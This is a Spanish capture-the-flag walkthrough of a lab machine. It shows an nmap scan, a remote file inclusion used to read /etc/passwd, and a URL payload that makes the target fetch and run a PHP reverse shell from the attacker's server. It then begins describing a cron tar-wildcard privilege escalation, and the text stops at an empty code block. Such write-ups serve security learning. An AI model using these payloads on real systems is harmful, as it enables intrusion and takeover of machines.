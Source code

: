 ``` sudo nmap -p- --min-rate 5000 10.10.132.202 -Pn -n -oN escaneo ```
Leeremos detenidamente el funcionamiento de esta vulnerabilidad y para asegurarnos de que la máquina es realmente vulnerable usaremos lo que he marcado en la foto. Al acceder a dicha ruta vemos que efectivamente se activa la vulnerabilidad y somos capaces de leer el archivo /etc/passwd de la máquina.


![alt text](images/image-30.png)


Sabiendo esto, vamos a prepararnos para poder ejecutar una reverse shell en PHP desde la máquina víctima y recibir una conexión exitosa en nuestra máquina atacante. Para esto tendremos que hacernos con una reverse shell en PHP y editar las variables oportunas indicando nuestra IP de la VPN y el puerto en el que nos pondremos en escucha.


![alt text](images/image-31.png)


![alt text](images/image-32.png)


Con esto hecho tenemos que levantarnos un servidor python en el que se encontrará nuestra reverse shell. Cuando lo hayamos hecho simplemente accederemos a la siguiente ruta y la reverse shell debería de ejecutarse:


``` http://10.10.132.202/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://$tuip/$tushell.php ```


![alt text](images/image-33.png)


![alt text](images/image-34.png)


![alt text](images/image-35.png)


La shell se ha ejecutado correctamente y hemos recibido una conexión exitosa desde la máquina víctima, estamos dentro de la máquina y somos capaces de leer la primera flag.


![alt text](images/image-36.png)


# Post-Explotación


Dentro del directorio del usuario milesdyson podemos ver una carpeta llamada backups, dentro de la misma hay un archivo .sh que es propiedad del usuario root y que nos podría ayudar a convertirnos en dicho usuario. 


![alt text](images/image-37.png)


Vemos que este script de ejecuta cada minuto, y que lo que hace es hacer uso del wildcard para comprimir todo lo que se encuentre en la carpeta /var/www/html para realizar una copia de seguridad y no perder el contenido. Este uso del wildcard es peligroso en términos de seguridad ya que selecciona TODO lo que esté en dicho directorio, ya sea bueno o malo. Usaremos esta mala configuración para ejecutar unos comandos que otorgarán permisos SUID a la bash pudiendo ejecutarla directamente como root.

```